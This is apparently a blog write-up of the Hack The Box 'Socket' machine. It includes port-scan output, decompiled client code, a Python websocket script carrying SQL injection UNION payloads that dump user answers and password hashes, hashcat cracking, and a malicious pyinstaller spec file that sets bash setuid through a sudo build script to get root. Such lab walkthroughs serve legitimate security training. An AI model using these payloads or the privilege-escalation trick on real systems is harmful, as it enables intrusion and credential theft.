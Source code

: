 ```yaml
---
title: "Hack The Box - Socket [Medium]"
date: 2023-04-21T10:42:27+03:00
draft: false
tags: ["hackthebox"]
---
```


So let's start with a rustscan of the machine

```bash
Open 10.10.11.206:22
Open 10.10.11.206:80
Open 10.10.11.206:5789
[~] Starting Script(s)
[~] Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 14:37 EEST
Initiating Ping Scan at 14:37
Scanning 10.10.11.206 [2 ports]
Completed Ping Scan at 14:37, 0.05s elapsed (1 total hosts)
Initiating Connect Scan at 14:37
Scanning qreader.htb (10.10.11.206) [3 ports]
Discovered open port 22/tcp on 10.10.11.206
Discovered open port 80/tcp on 10.10.11.206
Discovered open port 5789/tcp on 10.10.11.206
Completed Connect Scan at 14:37, 0.05s elapsed (3 total ports)
Nmap scan report for qreader.htb (10.10.11.206)
Host is up, received syn-ack (0.050s latency).
Scanned at 2023-04-21 14:37:19 EEST for 0s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
5789/tcp open  unknown syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
```

I went to port 80 to check what is there, the idea of the website is to create QR Codes and extract text out of QR Codes, first I thought that maybe there is something with the QR codes but after some examination I decided to give up on that path and I went over the other things such as the Linux/Windows application.

Upon further discovery using `strings` over the linux binary, I realized that this a packaged exectuable that was created with `pyinstaller` so I've tried to unpack it with `uncompyle6` and then the `pyc` files with `pycdc`. 

I found out the following things from the source code of `qreader`:

```python
...
VERSION = '0.0.2'
ws_host = 'ws://ws.qreader.htb:5789'
...
def version(self):
        response = asyncio.run(ws_connect(ws_host + '/version', json.dumps({
            'version': VERSION })))
        data = json.loads(response)
        if 'error' not in data.keys():
            version_info = data['message']
            msg = f'''[INFO] You have version {version_info['version']} which was released on {version_info['released_date']}'''
            self.statusBar().showMessage(msg)
            return None
        error = None['error']
        self.statusBar().showMessage(error)

def update(self):
	response = asyncio.run(ws_connect(ws_host + '/update', json.dumps({
		'version': VERSION })))
	data = json.loads(response)
	if 'error' not in data.keys():
		msg = '[INFO] ' + data['message']
		self.statusBar().showMessage(msg)
		return None
	error = None['error']
	self.statusBar().showMessage(error)
```

This source code tries to connect to a websocket to get its version/update, so the paths for the websockets are:

```
ws://ws.qreader.htb:5789/update
ws://ws.qreader.htb:5789/version
```

I've tested both of these with `claws` tool. Then I crafted a python script to connect with the socket. 

> **_WARNING:_** Be really careful which quotes you are using, `'` or `"` because that could interfere with the SQLi that I found in the `version` path!

```python
from websockets.sync.client import connect
import json

with connect("ws://ws.qreader.htb:5789/version") as websocket:
    websocket.send(json.dumps({'version': '0.0.3" UNION SELECT group_concat(answer),2,3,4 from answers-- -'}))
    m = websocket.recv()
    print(m)
```

With this script, I've enumerated the tables, columns and the username with the following payloads:

```SQL
'0.0.3" UNION SELECT group_concat(answer),2,3,4 from answers-- -' -> This finds the user Thomas Keller
'0.0.3" UNION SELECT group_concat(password),2,3,4 from users-- -' -> This find the password hash
```

Cracking the password

```bash
$ hashcat -m 0 -a 0 0c090c365fa0559b151a43e0fea39710 ~/tools/rockyou.txt
<PASSWORD>
```

Getting the username with [adusergen](https://github.com/syrull/hacks/tree/main/adusergen)

```bash
$ echo -n "Thomas Keller" | adusergen

Thomas.Keller
ThomasKeller
KellerThomas
Keller.Thomas
Tkeller
T.keller
Thomas-Keller
T.keller
thomas.keller
thomaskeller
kellerthomas
keller.thomas
		tkeller <--- Right One
t.keller
thomas-keller
t.keller
```

# Root

The root was fairly easy, you just have to read the documentation for spec files for `pyinstaller`, after that I crafted the following spec file:

```python
block_cipher = __import__('os').system('chmod +s /bin/bash')
```

```bash
tkeller@socket:~$ sudo /usr/local/sbin/build-installer.sh build priv.spec
105 INFO: PyInstaller: 5.6.2
105 INFO: Python: 3.10.6
107 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
110 INFO: UPX is not available.
script '/home/tkeller/minimal.py' not found
tkeller@socket:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
<HASH>
```